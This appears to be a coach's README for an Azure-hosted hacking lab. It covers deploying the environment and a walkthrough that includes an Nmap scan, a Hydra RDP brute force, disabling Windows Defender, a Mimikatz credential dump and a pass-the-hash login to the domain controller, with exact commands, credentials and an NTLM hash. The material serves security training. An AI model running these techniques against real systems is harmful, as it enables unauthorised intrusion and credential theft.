






# Hacking-Game-Coach

## Setup instructions

1. Download files from the Setup folder.

2. Start Azure CloudShell.

3. Upload files downloaded from Setup folder to CloudShell. 

4. If you have many subscriptions, set the subscription where you are going to deploy the environment. For this, you can use the cmd "AZ-SetContext".
    
    ```powershell
    Set-AzContext -SubscriptionId "79c2a240-1a7f-482f-a315-xxxxxxxxx"
    ```

    >**Warning**: **You have to be sure that the Auto-provisioning of Defender for Server is not enabled on your subscription**

5. Run the script deploy.ps1
  
   >**Note**: Don't worry about Warning messages

6. Once the deployment is done, share with attendees information about hack-vm that you get on the output section:
    - IPAddress
    - Login
    - Password 

## Solution

1. Connect to the hack-vm using RDP. Your coach will provide you with the Public IP address and credentials.

2. Use a tool from the toolbox to discover the private IP address of the workstation-vm.
    
    a. Download and install Nmap from "https://nmap.org/download.html"
    
    b. Run Nmap to scan the local network of hack-vm 10.0.0.0/24
    
    c. In the result you can see that the port rdp 3389 is open on the vm 10.0.0.100
    
    
 
3. Use a tool from the toolbox to find the login and password that will allow you to connect to the workstation-vm using RDP.

    a. Download Hydra application from https://github.com/maaaaz/thc-hydra-windows

    b. Download username.txt and password.txt files 

    c. Using Hydra application run a brute force attack on rdp port of the vm 10.0.0.100.         
  
      ```powershell
    .\hydra.exe -t 4 -V -f -L .\username.txt -P .\password.txt rdp://10.0.0.100
    ```
    
    d. After some attempts, the application will stop and you can see, the login and the password that have worked
    
    - Login: johnson
    
    - Password: P@ssw0rd1984
    
    
    
4. Connect to the workstation-vm using RDP and the login and password found in step 3.

5. Discover the IP address of the domain controller.  

    ```cmd
      nslookup
      > set type=all
      > _ldap._tcp.dc._msdcs.contoso.com
    ```
    
     
    
    >**Note**: You can help attendees with this link https://support.avigilon.com/s/article/Windows-How-to-Get-the-IP-Port-Used-and-IP-Addresses-of-Domain-Controllers-AD-Servers?language=en_US

6. Use a tool from the toolbox, (a) to find the login and password hash of the Domain Admin then (b) to connect to the domain controller using RDP.

    a. Disable "Real-time Protection", "Cloud-delivered protection" and "Automatic sample submission" in Windows Security
    
    
    
    b. Download mimikatz application from https://github.com/ParrotSec/mimikatz
    
    c. Run Mimikatz, then run the following commands:
    
    ```powershell
   .\mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # sekurlsa::logonpasswords
    ```
              
    d. Find the password hash of the domain Admin "dcadmin"
    
    
    
    e. Run this command in Mimikatz to connect to Domain controller using RDP
    
    ```powershell
    sekurlsa::pth /user:dcadmin /domain:contoso /ntlm:95771f22bc8fe09f0cb74443495bb587 /run:"mstsc.exe /restrictedadmin"
    ```
    
    f. Introduce the IP address of the domain controller "10.0.1.250" in Computer parameter on MSTC application 
    
    

>**Note**: Don't modify the "user name" parameter

## Clean up

1. Run the script delete.ps1
